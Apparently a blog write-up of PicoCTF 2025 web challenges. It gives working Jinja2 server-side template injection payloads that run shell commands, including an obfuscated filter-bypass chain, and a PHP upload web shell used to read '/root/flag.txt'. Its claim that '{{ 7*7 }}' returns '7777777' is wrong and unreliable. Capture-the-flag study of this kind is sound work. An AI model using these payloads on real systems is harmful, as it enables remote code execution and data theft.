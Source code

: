 ```yaml
---
title: PicoCTF2025
date: '2025-02-01'
draft: false
summary: Writeup
layout: PostBanner
images: ['/static/images/pico.jpg']
---
```


Here you'll find writeups for how I solved the challenges from PicoCTF 2025, across all categories — from web and pwn to reverse engineering, crypto, and more.
Each writeup includes my thought process, techniques, and the final solution.

<TOCInline
  toc={props.toc}
  exclude={['Bypassing Filters', 'Identifying the Template Engine', 'Exploitation']}
/>

# WEB

## SSTI1

From the challenge title, it's clear that we're dealing with **Server-Side Template Injection (SSTI)**. By testing a few payloads, we can identify the template engine being used.

## Identifying the Template Engine

Here are some basic payloads for different template engines:

![template-decision-tree](/static/images/pico2025/template-decision-tree.png)

After testing these, the one that works is `{{ 7*7 }}`, which returns `7777777`, confirming the engine is **Jinja2**.

## Exploitation

To confirm command execution, I tried:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

It works! Then I proceed to read the flag:

```jinja
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

And successfully retrieve the flag.

> Reference: [PortSwigger SSTI Guide](https://portswigger.net/web-security/server-side-template-injection)

---

## SSTI2

In the second challenge, the vulnerability is confirmed using:

```jinja
{{ 7 * '7' }}
```

Which returns: `7777777`  
This again confirms an SSTI vulnerability.

## Bypassing Filters

I found this obfuscated payload that bypasses filters and still achieves code execution:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('id') | attr('read')() }}
```

Then I modify it to read the flag:

```jinja
{{ request | attr('application') | attr('__globals__') | attr('__getitem__')('__builtins__') | attr('__getitem__')('__import__')('os') | attr('popen')('cat flag') | attr('read')() }}
```

> Reference: [Server Side Template Injection with Jinja2 - OnSecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

> Helpful source: [SSTI Server Side Template Injection - Medium](https://medium.com/@yadav-ajay/ssti-server-side-template-injection-746dda439038)

---

## n0s4n1ty 1

This challenge is vulnerable to uploading `.php` files instead of images. I simply inject PHP code to open a shell. (See the reference link below for a sample reverse shell.)

I know uploaded files are stored in `/uploads`, so I execute the command:

```
/uploads/index.php?cmd=sudo cat /root/flag.txt
```

- `index.php` is the name of my uploaded file.
- I assumed the flag was in `/root`, which turned out to be correct.

> Helpful source: [Simple PHP reverse shell](https://medium.com/@tareshsharma17/simple-php-reverse-shell-061d4a6bd18d)

---

## HEAD-DUMP

This challenge gives a pretty useful hint in the description: exploit the blog API.

```txt
The application is a simple blog website where you can read articles about various topics, including an article about API Documentation.
```

Among the articles, you’ll find a link to the API GUI. We know the flag is stored in the server memory, so we use the final GET request in the list.  
Accessing the corresponding URL, we download the file and find the flag.

---

# BINARY EXPLOITATION

## Soon

# FORSENSICS

## Soon
